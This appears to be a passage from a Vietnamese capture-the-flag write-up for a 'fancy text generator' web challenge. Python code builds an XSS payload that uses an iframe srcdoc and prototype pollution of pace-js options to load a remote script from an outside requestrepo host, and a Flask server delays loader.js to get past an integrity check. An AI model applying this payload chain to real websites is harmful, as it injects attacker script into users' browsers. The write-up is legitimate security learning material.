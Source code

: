 Vì sao ????
Đến đây thì mình mới nhớ là innerHTML không cho phép script chạy :vv . Bypass bằng iframe là xong 
```python
import requests
import urllib.parse
import html



url ="http://localhost:1338"
url ="https://fancy-text-generator-web.shared.challs.mt"

options = ""

#htmls = '''<img id="data-pace-options" data-pace-options='{"__proto__": {"polluted": ""}}'><script>alert()</img>'''

def html_encode(s):
    return s.replace("&", "&amp;").replace("<", "&lt;").replace(">", "&gt;").replace('"', "&quot;").replace("'", "&#39;")

payload ='''aaaa\\"><iframe srcdoc =\\"<script integrity=&amp;quot;sha256-1ltlTOtatSNq5nY+DSYtbldahmQSfsXkeBYmBH5i9dQ=&amp;quot; src=&amp;quot;/loader.js&amp;quot;></script><img id=&amp;quot;data-pace-options&amp;quot; data-pace-options=&amp;#39;{&amp;quot;__proto__&amp;quot;: {&amp;quot;polluted&amp;quot;: &amp;quot;https://nj2n2pew.requestrepo.com/ex.js&amp;quot;}}&amp;#39;>\\">'''
htmls = f'<img id="data-pace-options" data-pace-options=\'{{"startOnPageLoad":true,"__proto__":{{"polluted":"https://nj2n2pew.requestrepo.com/ex.js"}},"className": "{payload}"}}\'>'
text =  htmls + '<a id ="contentBox">'
res = requests.get(url,params={"text":text})
print(res.text)
print(payload)
print(url + "?text=" + urllib.parse.quote(text))

```
Đến đoạn này thì còn một vấn đề là loader.js của mình sẽ luôn được load trước khi pace-js được load . Mình có thể tạo một hanging server và gửi loader.js đúng với file ban đầu để không bị lỗi intergriti
```python
from flask import Flask, send_file
from flask_cors import CORS

import time 

app = Flask(__name__)
CORS(app)  # Enable CORS for all routes

@app.route('/loader.js')
def serve_js():
    time.sleep(3)
    return send_file('src/static/loader.js', mimetype='application/javascript')


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=3000)

```
Full script : 
```python
import requests
import urllib.parse
import html



url ="http://localhost:1338"
```